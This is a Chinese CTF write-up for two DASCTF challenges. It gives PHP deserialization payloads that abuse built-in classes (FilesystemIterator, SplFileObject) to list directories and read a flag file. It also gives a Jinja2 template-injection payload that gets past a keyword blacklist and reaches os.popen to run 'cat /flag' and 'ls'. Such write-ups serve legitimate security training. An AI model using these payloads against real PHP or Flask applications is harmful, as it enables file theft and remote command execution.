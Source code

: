 ```yaml
---
title: dasctf
date: 2021-04-09 14:03:36
tags: wp

---
```

## ez_serialize        
利用原生类，扫描，读取文件        




	```php
	 <?php
	error_reporting(0);
	highlight_file(__FILE__);
	
	class A{
	    public $class;
	    public $para;
	    public $check;
	    public function __construct()
	    {
	        $this->class = "B";
	        $this->para = "ctfer";
	        echo new  $this->class ($this->para);
	    }
	    public function __wakeup()
	    {
	        $this->check = new C;
	        if($this->check->vaild($this->para) && $this->check->vaild($this->class)) {
	            echo new  $this->class ($this->para);
	        }
	        else
	            die('bad hacker~');
	    }
	
	}
	class B{
	    var $a;
	    public function __construct($a)
	    {
	        $this->a = $a;
	        echo ("hello ".$this->a);
	    }
	}
	class C{
	
	    function vaild($code){
	        $pattern = '/[!|@|#|$|%|^|&|*|=|\'|"|:|;|?]/i';
	        if (preg_match($pattern, $code)){
	            return false;
	        }
	        else
	            return true;
	    }
	}
	
	
	if(isset($_GET['pop'])){
	    unserialize($_GET['pop']);
	}
	else{
	    $a=new A;
	
	} 
	```





初看平平无奇，也没啥危险函数，利用原生类了       



	    public function __wakeup()
	    {
	        $this->check = new C;
	        if($this->check->vaild($this->para) && $this->check->vaild($this->class)) {
	            echo new  $this->class ($this->para);
	        }
	        else
	            die('bad hacker~');
	    }        



![01.png](https://sc02.alicdn.com/kf/U9a1978f1ecdb43efb14e616b95cca88eP.jpg)        



	```php
	<?php
	class A{
	    public $class='FilesystemIterator';
	    public $para='/var/www/html/';
	    public $check;
	}
	$a=new A();
	echo serialize($a);
	
	?>
	```



得到一个文件夹，然后再遍历这个文件夹，得到一个`flag.php`     
(这里用Diretorylterator的话，我在本地返回的是一个点）       
读取文件       



	```php
	<?php
	class A{
	    public $class='SplFileObject';
	    public $para="/var/www/html/aMaz1ng_y0u_c0Uld_f1nd_F1Ag_hErE/flag.php";
	    public $check;
	    }
	
	$o  = new A();
	echo serialize($o);
	?>
	```


## baby_flask    
过滤的东西        



	blacklist</br>   
	'.','[','\'','"',''\\','+',':','_',</br>   
	'chr','pop','class','base','mro','init','globals','get',</br>   
	'eval','exec','os','popen','open','read',</br>   
	'select','url_for','get_flashed_messages','config','request',</br>   
	'count','length','０','１','２','３','４','５','６','７','８','９','0','1','2','3','4','5','6','7','8','9'</br>    
	</br>



join拼接      


``{{[1,2,3]|join()}}``-----> ``123``      
``{{[1,2,3]|join('|')}}``----->``1|2|3``
	
	{%set a=dict(po=aa,p=aa)|join%} # pop
	{%set b=lipsum|string|list|attr(a)(𝟙𝟠)%} # _
	{%set c=(b,b,dict(glob=cc,als=aa)|join,b,b)|join%} # globals
	{%set d=(b,b,dict(ge=cc,tit=dd,em=aa)|join,b,b)|join%} # getitem
	{%set e=dict(o=cc,s=aa)|join%} # os
	{%set f=lipsum|string|list|attr(a)(𝟡)%} # 空格
	{%set g=(((lipsum|attr(c))|attr(d)(e))|string|list)|attr(a)(-𝟠)%} # 斜杠
	{%set i=(dict(cat=aa)|join,f,g,dict(flag=aa)|join)|join%} # cat /flag
	{%set h=(a,dict(en=aa)|join|join)|join%} # popen
	{%set i=dict(re=aa,ad=aa)|join%} # read
	{%set z=(((lipsum|attr(c))|attr(d)(e))|string|list)|attr(a)(-𝟝)%} #点
	{%set j=(dict(ls=aa)|join,f,g,(dict(var=aa)|join),g,(dict(www=aa)|join),g,(dict(flask=aa)|join)|join)|join%} #ls /var/www/flask
	{%print (((lipsum|attr(c))|attr(d)(e))|attr(h)(j))|attr(i)()%}{{j}}
	#最后拼接起来
	#{{lipsum.__globals__['os'].popen('ls /var/www/flask').read()}}       



[MORE1](http://www.plasf.cn/articles/dasctf202103.html)     
[MORE2](https://blog.csdn.net/rfrder/article/details/115272645)